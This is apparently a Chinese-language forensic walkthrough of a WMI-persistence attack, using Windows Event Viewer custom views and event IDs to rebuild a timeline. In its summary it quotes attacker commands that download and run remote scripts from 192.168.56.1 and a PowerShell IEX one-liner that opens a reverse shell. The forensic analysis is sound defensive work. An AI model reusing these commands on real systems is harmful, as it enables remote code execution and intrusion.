 	- #### 右側點擊 `Create Custom View...`
		- #### 點擊 `Logged:` 處的 `Any time` 選擇 `Custom range...`
			- #### `From:` 將 `First Event` 改為 `Events On` 並設定時間為 `4/3/2022 5:40:00 AM`
			- #### `To:` 將 `Last Event` 改為 `Events On` 並設定時間為 `4/3/2022 6:10:00 AM`
			- #### 點擊 `OK` 完成時間設定
		- #### 選擇 `By Log` 並在 `Event Logs: ` 下拉選單勾選
			- #### `Windows Logs`：`Security`
			- #### `Applications and Services Logs > Microsoft > Windows > WMI-Activity`：`Operational`
		- #### 在 `<All Event IDs>` 的輸入欄位，輸入 `4624, 4688, 5860, 5861`，點擊 `OK` 完成
		- #### 會彈出另一個小視窗要你輸入名稱完成 Custom View 的建立，隨意輸入即可
		- 然後畫面就會回到 Event Viewer 並且觀察左側欄會發現已經跳到 `Custom Views` > `你剛剛設定的名稱`
		- #### 鍵盤按 `ctrl`+`F` 或點擊右側 `Find...`，輸入 `4624` 搜尋登入記錄，會發現只有 `4/3/2022 6:05:45 AM` 的兩筆 log
		- #### 將時間軸移到前面發現的 WMI Binding log 處 (`4/3/2022 5:45:39 AM`)，會發現相同時間有一筆 `4688` log
			- #### `Account Name`：使用的身份是使用者帳號 `IEUser`
			- #### `Token Elevation Type`：以 `Run as administrator` 執行
			- #### `Process Command Line`：執行桌面的 `evil3.vbs`
- ### 總結
	- ### `4/3/2022 5:45:39 AM` 駭客以 `IEUser` 帳號使用 `Run as administrator` 執行 `evil3.vbs`
	- ### `4/3/2022 5:45:39 AM` 電腦被加入 `WMI FilterToConsumerBinding` 設定
		- #### Filter `Ready2Go`：每 `5秒` 檢查一次 `登入 log`
		- #### Consumer `sysWOW64.wbemapi`：觸發 `下載執行可疑檔案 gimmesome.js`
		> GetObject("script:http://192.168.56.1:8080/gimmesome.js")
	- ### `4/3/2022 6:05:45 AM` 有人登入產生 `4624` log
	- ### `4/3/2022 6:05:46 AM` 觸發 `下載執行可疑 chromeupdater.ps1`
	> IEX (New-Object System.Net.Webclient).DownloadString('http://192.168.56.1:8080/chromeupdater.ps1');chromeupdater -c 192.168.56.1 -p 5566 -e cmd
	- #### 產生常駐連線往 `192.168.56.1:5566`


# reference
- https://www.giac.org/paper/gcfa/11563/hunting-ghosts-fileless-attacks/150888
- https://nxlog.co/documentation/nxlog-user-guide/wmi.html
- https://www.mandiant.com/sites/default/files/2021-09/wp-windows-management-instrumentation.pdf
- https://docs.microsoft.com/en-us/windows-server/identity/ad-ds/manage/component-updates/command-line-process-auditing
- https://social.technet.microsoft.com/Forums/windows/en-US/74174afb-46b7-4c4c-b89c-537af3a038a0/audit-event-id-4719-keeps-happening-over-and-over?forum=winserverGP
- https://social.technet.microsoft.com/Forums/windows/en-US/bf693b49-1dd5-45ee-84cf-4a417e5b35ec/run-as-admin-event-log?forum=winserverDS
- https://github.com/williballenthin/EVTXtract
- https://github.com/Virus-Samples/Malware-Sample-Sources

